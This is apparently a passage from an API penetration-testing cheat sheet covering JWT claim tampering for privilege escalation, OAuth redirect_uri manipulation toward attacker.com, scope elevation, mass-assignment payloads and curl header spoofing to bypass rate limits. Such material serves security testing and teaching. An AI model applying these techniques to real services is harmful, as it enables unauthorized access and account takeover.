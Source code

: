 **Claims manipulation:**
```json
# Decode payload and modify
{
  "user_id": 123,      # Change to different user
  "role": "admin",     # Escalate privileges
  "exp": 9999999999    # Extend expiration
}
```

### OAuth 2.0 Testing

**Authorization flow manipulation:**
```bash
# Redirect URI manipulation
https://auth.example.com/oauth?redirect_uri=https://attacker.com

# State parameter missing (CSRF vulnerability)
# Scope elevation
scope=read -> scope=admin

# Client secret exposure (mobile apps)
```

---

## Advanced API Attacks

### Mass Assignment

**Parameter pollution:**
```json
# Original request
{
  "name": "John",
  "email": "john@example.com"
}

# Add unexpected parameters
{
  "name": "John", 
  "email": "john@example.com",
  "role": "admin",
  "is_verified": true,
  "account_balance": 999999
}
```

### Rate Limiting Bypass

**Header manipulation:**
```bash
# Try different IP headers
curl -H "X-Forwarded-For: 1.2.3.4" /api/endpoint
curl -H "X-Real-IP: 5.6.7.8" /api/endpoint
curl -H "X-Originating-IP: 9.10.11.12" /api/endpoint

# User-Agent rotation
curl -H "User-Agent: Mobile-App/1.0" /api/endpoint
```
